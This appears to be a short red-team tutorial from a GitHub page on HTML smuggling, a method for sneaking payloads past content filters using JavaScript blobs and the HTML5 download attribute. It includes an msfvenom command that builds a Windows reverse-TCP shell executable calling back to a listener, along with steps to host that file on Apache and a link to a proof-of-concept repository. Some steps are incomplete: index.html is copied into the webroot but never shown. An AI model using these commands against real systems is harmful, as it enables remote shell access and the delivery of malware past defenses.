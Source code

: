 ```yaml
---
title: HTML Smuggling
category: Defense Evasion
tags: [HTML Smuggling (T1027.006), Obfuscated Files or Information (T1027), Delivery]
---
```

## HTML-Smuggling
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag. This article demonstrates the methodology and two such readily available scripts that perform HTML smuggling.
## MITRE Mapping
 - MITRE TACTIC: Defense Evasion (TA0005)
 - MITRE Technique ID: Obfuscated Files or Information (T1027) 
 - MITRE SUB ID: HTML Smuggling (T1027.006)
 
Let’s start with the basics. In HTML5, if we want a user to download a file hosted on our server, we can do that by using the anchor tag.
```css
    <a href=”/payload.exe” download=”payload.exe”>Download Here</a>
```
For that, let’s first create a payload using msfvenom and copy it in our apache webroot directory.
```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.89 LPORT=1234 -f exe > payload.exe
```
```bash
    cp payload.exe /var/www/html
```
Then we copy this into the apache webroot and start the apache server
```bash
    cp index.html /var/www/html
    
    cd /var/www/html
    
    service apache2 start
```
But in order to supply this into our blob as a buffer, we need a single string with no enters. This fixing be done manually by copying this output in notepad and removing enters or you could follow our alternate approach by going to ***[base64.guru](https://base64.guru/)*** website.
Here, upload your payload and the converted base64 shall be given in a single line.

## GitHub Repoitory for POC

https://github.com/ashizZz/HTML-Smuggling